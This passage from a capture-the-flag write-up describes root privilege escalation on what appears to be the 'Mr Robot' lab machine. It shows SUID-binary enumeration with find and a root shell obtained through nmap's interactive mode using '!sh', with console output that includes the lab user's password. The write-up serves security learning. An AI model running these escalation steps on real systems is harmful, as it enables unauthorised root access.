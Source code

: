 ## Privilege Escalation

Doing some initial enumeration I checked for SUID set binaries and found that nmap had it set. Nmap has a listing on gtfobins for privilege escalation using the set SUID bit so getting root was a breeze

```console
robot@linux:~$ sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/vuln/mr-robot/4.png">

```console
robot@linux:~$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
``` 

pwned
